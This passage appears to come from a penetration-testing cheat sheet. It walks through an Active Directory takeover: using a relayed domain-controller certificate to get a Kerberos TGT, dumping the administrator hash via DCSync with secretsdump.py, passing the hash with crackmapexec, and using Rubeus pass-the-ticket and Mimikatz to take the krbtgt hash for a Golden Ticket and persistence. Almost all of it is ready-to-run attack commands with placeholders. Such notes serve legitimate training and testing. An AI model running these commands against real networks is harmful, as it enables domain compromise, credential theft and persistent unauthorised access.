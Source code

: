 If we successfull execute it, we will see a login request, and obtain the base64 encoded certificate for the DC. With this certificate, we can use **gettgtgpkinit.py** to request a TGT for the DC:
```console
zero@pio$ python3 gettgtpkinit.py <DOMAIN>.LOCAL/<DC COMPUTER NAME>\$ -pfx-base64 <BASE64 CERT> dc01.ccache
```

The TGT request was saved in **dc01.ccache**. We can now use the **KRB5CCNAME** environment variable, so our attack host uses this file for Kerberos authentication attempt:
```console
zero@pio$ export KRB5CCNAME=dc01.ccache
```

We can use this TGT with **secretsdump.py** to perform a DCSync and retrieve the NTLM hashes:
```console
zero@pio$ secretsdump.py -just-dc-user <DOMAIN>/administrator -k -no-pass "<DC COMPUTER NAME>$"@<DC COMPUTER NAME>.<DOMAIN>.LOCAL
```

We could also use a more straightforward command: `secretsdump.py -just-dc-user <DOMAIN>/administrator -k -no-pass <DC COMPUTER NAME>.<DOMAIN>.LOCAL` because the tool will retrieve the username from the ccache file. We can use `klist` (installed from [krb5-user](https://packages.ubuntu.com/focal/krb5-user)) to check it.

We can now confirm the NTLM:
```console
zero@pio$ crackmapexec smb <DC IP> -u administrator -H <NTLM HASH>
```

We can also use the tool **getnthash.py** from PKINITtools to request the NT hash for our target host using Kerberos U2U to submit a TGS request with the **Privileged Attribute Certificate** (**PAC**), which contains the NT hash of the target. This can be decrypted with AS-REP encryption key.
```console
zero@pio$ python getnthash.py -key <NTLM HASH> <DOMAIN>.LOCAL/<DC COMPUTER NAME>$
```

We can use this hash to perform a DCSync:
```console
zero@pio$ secretsdump.py -just-dc-user <DOMAIN>/administrator "<COMPUTER NAME>$"@<DC IP> -hashes <HASH>
```

Alternatively, once we obtain the base64 certificate via ntlmrelayx.py, we could use the certificate with the Rubeus tool on a Windows attack host to request a TGT ticket and perform a pass-the-ticket (PTT) attack all at once:
```console
PS C:\zeropio> .\Rubeus.exe asktgt /user:<DC COMPUTER NAME>$ /certificate:<BASE64 CERT> /ptt
```

We can then type `klist` to confirm that the ticket is in memory:
```console
PS C:\zeropio> klist
```

Again, since Domain Controllers have replication privileges in the domain, we can use the pass-the-ticket to perform a DCSync attack using Mimikatz from our Windows attack host. We can get the NT hash for KRBTGT account, to create a *Golden Ticket* and establish persistence:
```console
PS C:\zeropio> .\mimikatz.exe
mimikatz # lsadump::dcsync /user:<DOMAIN>\krbtgt
```
